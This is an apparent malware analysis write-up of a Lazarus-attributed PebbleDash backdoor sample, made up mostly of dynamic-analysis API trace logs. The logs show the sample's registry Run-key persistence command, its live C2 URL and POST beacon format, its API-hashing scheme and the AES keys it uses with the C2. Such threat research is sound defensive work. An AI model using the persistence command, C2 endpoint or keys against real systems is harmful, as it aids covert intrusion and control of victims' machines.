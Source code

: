 ```yaml
---
title: "LAZARUS PebbleDash"
date: 2025-03-10
---
```


# Context

SHA256 : 875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24  
sample source : [bazar.abuse.ch](https://bazaar.abuse.ch/sample/875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24/)  
VT : [VirusTotal](https://www.virustotal.com/gui/file/875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24)  

Reports:  
<https://dmpdump.github.io/posts/Lazarus-Backdoor-ITLure/>  
<https://ti.qianxin.com/blog/articles/Kimsuky-Weapon-Update:-Analysis-of-Attack-Activity-Targeting-Korean-Region/>  


C2 :
http://www.addfriend.kr/board/userfiles/temp/index.html  

Analyzed sample is a 64bit PE PebbleDash sample attributed to LAZARUS  

As usual, results from dynamic analysis are shared in my repository ([logs](https://github.com/cedricg-mirror/reflexions/blob/main/APT/LAZARUS/PebbleDash/875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24/logs.txt))  




## Persistency  

In order to trigger the persistency-setup behavior from the sample a little reverse engineering was required :  

```html
[CNT] [13]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetCommandLineA> in [KERNEL32.DLL] 
[RET] 0x7ff7f099fd96 in [pebbledash.exe]

[CNT] [14]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetCommandLineW> in [KERNEL32.DLL] 
[RET] 0x7ff7f099fda3 in [pebbledash.exe]
```

Following the results from those call in statical analysis revealed the following :  

![Command Line Parsing](/docs/assets/images/PebbleDash/start.jpg)

The sample was therefore run with the '--start' parameter, which triggered its installation :  

```html
[CNT] [64]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <CreateProcessW> in [KERNEL32.DLL] 
[PAR] LPCWSTR               lpApplicationName   : 0x0 (null)
[PAR] LPCWSTR               lpCommandLine       : 0x00000025275BF1E0
[STR]                       -> "reg add hkcu\software\microsoft\windows\currentversion\run /d "\"C:\Users\user\Desktop\pebbledash\pebbledash.exe\"" /t R"
[STR]                          "EG_SZ /v "PAY" /f"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes  : 0x0
[PAR] BOOL                  bInheritHandles     : 0x0
[PAR] DWORD                 dwCreationFlags     : 0x0 
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCWSTR               lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOW        lpStartupInfo        : 0x00000025275BE970
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x1 (STARTF_USESHOWWINDOW)
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x0
[FLD]                       -> hStdOutput  = 0x0
[FLD]                       -> hStdError   = 0x0
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x00000025275BE950
[RET] 0x7ff7f0997314 in [pebbledash.exe]
```


## C2 connection

C2 connection is straightforward :  

```html
[CNT] [91]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpConnect> in [winhttp.dll] 
[PAR] HINTERNET     hSession       : 0x277edf80
[PAR] LPCWSTR       pswzServerName : 0x00000025275BD040
[STR]               -> "www.addfriend.kr"
[PAR] INTERNET_PORT nServerPort    : 80
[RET] 0x7ff7f0985d45 in [pebbledash.exe]

[CNT] [92]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpOpenRequest> in [winhttp.dll] 
[PAR] HINTERNET hConnect          : 0x277f0070
[PAR] LPCWSTR   pwszVerb          : 0x00000025275BD022
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x00000025275BD250
[STR]           -> "/board/userfiles/temp/index.html"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x0 
[RET] 0x7ff7f0985e41 in [pebbledash.exe]

[...]

[CNT] [103]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpWriteData> in [winhttp.dll] 
[PAR] HINTERNET hRequest                 : 0x00000025277F4080
[PAR] LPCVOID   lpBuffer                 : 0x00000025275BE180
[STR]           -> "sep=MltZfhPlOLa&uid=689b5bb9&sid=0101e418"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0x29
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x00000025275BDE38
[RET] 0x7ff7f0986c47 in [pebbledash.exe]

[CNT] [104]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpReceiveResponse> in [winhttp.dll] 
[PAR] HINTERNET hRequest   : 0x00000025277F4080
[PAR] LPVOID    lpReserved : 0x0
[RET] 0x7ff7f0986daa in [pebbledash.exe]
```

As mention in a linked blog analysis from dmpdump.github, the "uid" parameter is set according to the result from :  

```html
[CNT] [81]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetVolumeInformationW> in [KERNEL32.DLL] 
[PAR] LPCWSTR lpRootPathName           : 0x00000025275BDCB0
[STR]         -> "C:\"
[PAR] LPWSTR  lpVolumeNameBuffer       : 0x0
[PAR] DWORD   nVolumeNameSize          : 0x0
[PAR] LPDWORD lpVolumeSerialNumber     : 0x00000025275BDCA8
[PAR] LPDWORD lpMaximumComponentLength : 0x0
[PAR] LPDWORD lpFileSystemFlags        : 0x0
[PAR] LPWSTR  lpFileSystemNameBuffer   : 0x0
[PAR] DWORD   nFileSystemNameSize      : 0x0
[RET] 0x7ff7f098ab33 in [pebbledash.exe]
```

---  

Triggering additional behavior from the sample would require to reverse the C2 communication protocol which I may or may not do later ...  

---  

## API Call

API call is achieved is most cases by going through the following pattern :  

![Dynamic API Address resolution](/docs/assets/images/PebbleDash/API_Call.jpg)

1) Required function name is hashed with Fowler–Noll–Vo hash function  
<https://en.wikipedia.org/wiki/Fowler%E2%80%93Noll%E2%80%93Vo_hash_function>
The FNV_offset_basis is the 64-bit value: 0xcbf29ce484222325.  
The FNV_prime is the 64-bit value 0x100000001b3.  

2) Function address is dynamically retrieved by walking the PEB and looking for an exported function matching the given Hash  

3) Calling the function  

Few examples of hashed function names below :  

```
2cd62eda1e190cc8  
winhttp!WinHttpWriteData

bcfc93e92c75c701
WinHTTP!WinHttpReceiveResponse

200cc715113de71d  
KERNEL32!LocalAlloc

ddd409e63a9cb926
WinHTTP!WinHttpQueryDataAvailable

90fc86b9e2232aa9  
WinHTTP!WinHttpReadData

3cf811a64137c676
KERNEL32!LocalFree

ca455d40bfa3e279
WinHTTP!WinHttpCloseHandle
```

## Encryption

AES encryption is achieved by the following routine :  

![AES Encrypt](/docs/assets/images/PebbleDash/aes.jpg)

The AES key is unxored just before the call : "NjqaPmSWYpmkTJZn"  

Interestingly, the Key to decrypt orders from the C2 is somewhat different : "aqjNWSmPkmpYnZJT"   

To summarize  :  

```
loc_140007630 (aes encrypt -> base64 encode -> C2) :  
encrypt_key = NjqaPmSWYpmkTJZn

loc_1400078A4 (C2 -> base64 decode -> AES decrypt) :
decrypt_key = aqjNWSmPkmpYnZJT
```

---  



